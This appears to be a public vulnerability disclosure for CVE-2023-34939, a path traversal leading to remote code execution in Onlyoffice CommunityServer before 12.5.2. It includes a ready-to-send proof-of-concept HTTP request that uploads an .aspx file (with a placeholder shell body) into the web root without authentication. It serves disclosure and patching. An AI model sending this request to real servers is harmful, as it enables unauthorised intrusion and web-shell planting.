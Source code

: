 # CVE-2023-34939
RCE via Path Traversal vulnerability in **Onlyoffice CommunityServer < 12.5.2**

# Description
Onlyoffice Community Server is a collaborative platform for managing documents, projects and customer relations. Recently, a security vulnerability was discovered in this software version that could allow remote code execution (RCE) attacks.

The vulnerability is located in the UploadProgress.ashx component, which is responsible for handling file uploads. **Unauthorized** attackers can exploit this weakness by sending specially crafted requests to the server, triggering the execution of arbitrary code on the affected system.

This RCE vulnerability poses a serious risk to the security and integrity of organizations using Onlyoffice Community Server. As a result, it is highly recommended to update to the latest version of the software (v12.5.2 as for now) as soon as possible to prevent potential attacks.

**The only condition** is that there should be a thread created in the forum module.

# Proof of Concept
This PoC is for educational and research purposes only. It should not be used for malicious purposes or to cause harm to any system or network. The purpose of this PoC is to raise awareness of the vulnerability and to encourage responsible disclosure and patching.

```
POST /UploadProgress.ashx?submit=ASC.Web.UserControls.Forum.ForumAttachmentUploadHanler,ASC.Web.Community&SettingsID=11111111-1111-1111-1111-111111111111&ThreadID=3&UserID=11111111-1111-1111-1111-111111111110 HTTP/1.1
Host: REDACTED
Content-Length: 121
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123

------WebKitFormBoundary123
Content-Disposition: form-data; name="files[]"; filename="../../../../../../../../../../../../../WebStudio/2023-34939.aspx"
Content-Type: application/asp

ASPX SHELL
------WebKitFormBoundary123--
```
Simply change the ThreadID and the file will be uploaded to the root web directory.

# Author
Kirill Firsov
[Twitter @k_firsov](https://twitter.com/k_firsov)

# References
Fixed in [Onlyoffice CommunityServer v12.5.2](https://github.com/ONLYOFFICE/CommunityServer/blob/master/CHANGELOG.md#version-1252)
